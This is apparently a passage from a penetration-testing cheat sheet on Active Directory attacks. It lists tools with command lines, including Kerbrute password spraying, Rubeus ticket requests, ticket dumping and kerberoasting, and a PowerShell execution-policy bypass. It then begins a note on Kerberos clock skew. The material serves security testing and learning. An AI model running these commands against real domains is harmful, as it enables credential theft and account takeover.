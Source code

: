 - [ADRecon](https://github.com/sense-of-security/ADRecon)
    
    ```powershell
    .\ADRecon.ps1 -DomainController MYAD.net -Credential MYAD\myuser
    ```
    
- [Active Directory Assessment and Privilege Escalation Script](https://github.com/hausec/ADAPE-Script)
    
    ```powershell
    powershell.exe -ExecutionPolicy Bypass ./ADAPE.ps1 
    ```
    
- [Ping Castle](https://github.com/vletoux/pingcastle)
    
    ```powershell
    pingcastle.exe --healthcheck --server <DOMAIN_CONTROLLER_IP> --user <USERNAME> --password <PASSWORD> --advanced-live --nullsession
    pingcastle.exe --healthcheck --server domain.local
    pingcastle.exe --graph --server domain.local
    pingcastle.exe --scanner scanner_name --server domain.local
    available scanners are:aclcheck,antivirus,computerversion,foreignusers,laps_bitlocker,localadmin,nullsession,nullsession-trust,oxidbindings,remote,share,smb,smb3querynetwork,spooler,startup,zerologon,computers,users
    ```
    
- [Kerbrute](https://github.com/ropnop/kerbrute)
    
    ```powershell
    ./kerbrute passwordspray -d <DOMAIN> <USERS.TXT> <PASSWORD>
    ```
    
- [Rubeus](https://github.com/GhostPack/Rubeus)
    
    ```powershell
    Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ptt] [/luid]
    Rubeus.exe dump [/service:SERVICE] [/luid:LOGINID]
    Rubeus.exe klist [/luid:LOGINID]
    Rubeus.exe kerberoast [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."]
    ```
    
- [AutomatedLab](https://github.com/AutomatedLab/AutomatedLab)
    
    ```powershell
    New-LabDefinition -Name GettingStarted -DefaultVirtualizationEngine HyperV
    Add-LabMachineDefinition -Name FirstServer -OperatingSystem 'Windows Server 2016 SERVERSTANDARD'
    Install-Lab
    Show-LabDeploymentSummary
    ```
    

## Kerberos Clock Synchronization

In Kerberos, time is used to ensure that tickets are valid. To achieve this, the clocks of all Kerberos clients and servers in a realm must be synchronized to within a certain tolerance. The default clock skew tolerance in Kerberos is `5 minutes`, which means that the difference in time between the clocks of any two Kerberos entities should be no more than 5 minutes.

